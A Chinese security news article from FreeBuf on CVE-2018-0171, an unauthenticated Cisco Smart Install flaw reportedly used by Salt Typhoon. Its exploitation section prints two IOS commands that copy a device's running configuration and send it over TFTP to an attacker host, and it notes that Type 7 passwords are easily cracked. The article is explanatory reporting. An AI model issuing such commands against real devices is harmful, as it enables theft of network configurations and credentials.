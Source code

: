 #  思科设备曝出七年旧漏洞 攻击者可远程执行代码   
 FreeBuf   2025-04-14 11:15  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR38jUokdlWSNlAjmEsO1rzv3srXShFRuTKBGDwkj4gvYy34iajd6zQiaKl77Wsy9mjC0xBCRg0YgDIWg/640?wx_fmt=gif "")  
  
  
思科网络设备中存在一个长达七年的安全漏洞，至今仍对未打补丁的系统构成重大风险，攻击者可利用该漏洞远程执行代码。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icV7OwHtLhs4EibdsxlDiaYQicDLY5hwNuesSbe0KicYwO5pEbt0RUkPKm4PNGJhYk8zcjwibEQ7UxSaKQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
该漏洞编号为CVE-2018-0171，最初于2018年发现，针对思科的Smart Install（智能安装）功能。该功能是一种即插即用配置工具，旨在简化网络设备部署。  
  
  
尽管漏洞年代久远，但最新证据表明其仍在被活跃利用，凸显了未修复历史漏洞的持续威胁。  
  
  
该漏洞利用了思科Smart Install协议中的关键缺陷——该协议默认不要求身份验证，且在众多思科设备上默认启用。  
  
  
这种设计缺陷与TCP 4786端口的常规开放形成叠加风险，为攻击者创造了绝佳条件。最新扫描显示，全球仍有超过1200台设备公开暴露Smart Install服务。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icV7OwHtLhs4EibdsxlDiaYQic3h7VfHLEHqicVeB4JNf1Mh6mSbW5BXe0F55VJRYicsmFXT7XtZwgPiaXw/640?wx_fmt=jpeg&from=appmsg "")  
  
检测到1,239台设备（来源：ISC）  
  
  
据ISC分析师确认，攻击者可通过构造特殊Smart Install数据包绕过验证检查，在受影响设备上执行未授权命令。  
  
  
SANS互联网风暴中心研究人员在分析近期攻击活动时指出："该漏洞特别危险，因为网络基础设施的更新周期通常比其他企业系统更长。"  
  
  
该漏洞近期因与中国背景的APT（高级持续威胁）组织"盐台风"（Salt Typhoon）产生关联而再度引发关注。据报道，该组织在2024年末针对电信运营商的攻击活动中利用了CVE-2018-0171漏洞，有美国参议员称此次事件为"美国电信史上最严重的黑客攻击"。  
  
  
尽管思科自2018年就提供了补丁，但仍有大量组织运行着存在漏洞的系统，为攻击者提供了唾手可得的目标。  
  
  
**01**  
  
  
  
**漏洞利用机制**  
  
  
攻击者首先连接Smart Install端口，然后发送特制命令。利用Smart Install Exploit Tool（SIET）等公开工具，攻击者无需认证即可提取设备配置。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icV7OwHtLhs4EibdsxlDiaYQicehZfwLgEYQZrfZWx6H9MVDdSCOEibId6b0coK272ia2somibW1bIdsCIQ/640?wx_fmt=jpeg&from=appmsg "")  
  
SIETv3工具界面（来源：ISC）  
  
  
典型攻击流程如下：首先建立TCP 4786端口连接，然后发送命令提取并传输配置文件：  
  
```
copy system:running-config flash:/config.txt 
copy flash:/config.text tftp://192.168.10.2/192.168.10.1.conf
```  
  
  
  
这些命令会强制设备将其运行配置复制到闪存目录，然后通过TFTP协议传输至攻击者机器。由于TFTP采用明文传输，包括加密密码在内的全部配置都会暴露。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icV7OwHtLhs4EibdsxlDiaYQicicjmmVcRyd9KPGgUJUAosPCy6aCtvFEGXz8kBcoT0sHzVbD9rRd1icJg/640?wx_fmt=jpeg&from=appmsg "")  
  
技术说明（来源：ISC）  
  
  
采用Type 7加密的密码（基于公开的Vigenère密码）可被常见工具即时破解。获取配置后，攻击者能识别管理账户、网络拓扑和安全策略，从而在不触发警报的情况下实施进一步渗透。  
  
  
这一长达七年的漏洞案例表明，历史安全问题仍对现代基础设施构成重大威胁。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR39ibFdyjP3Qp8CEJxFWljbW1y91mvSZuxibf3Q3g2rJ32FNzoYfx4yaBmWbfwcRaNicuMo3AxIck2bCw/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
[](https://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651317804&idx=2&sn=3d017ae8749aa67775bcd2302b38931b&scene=21#wechat_redirect)  
  
[](https://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651317737&idx=1&sn=99fed7dcc16d21127eb031fd187b35f5&scene=21#wechat_redirect)  
  
[](https://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651317886&idx=2&sn=d71ff253383c30e9a56386b7e7ef8f45&scene=21#wechat_redirect)  
  
  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR39ibFdyjP3Qp8CEJxFWljbW1uEIoRxNoqa17tBBrodHPbOERbZXdjFvNZC5uz0HtCfKbKx3o3XarGQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
  
  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icFibibPIGEfXsibI0C3or4BS5KDnCKUfVLVQGsc9BiaQTUsrwzfcianumzeLVcmibOmm2FzUqef2V6WPQQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR38mFMbqsUOVbBDicib7jSu7FfibBxO3LTiafGpMPic7a01jnxbnwOtajXvq5j2piaII2Knau7Av5Kxvp2wA/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR3icF8RMnJbsqatMibR6OicVrUDaz0fyxNtBDpPlLfibJZILzHQcwaKkb4ia57xAShIJfQ54HjOG1oPXBew/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
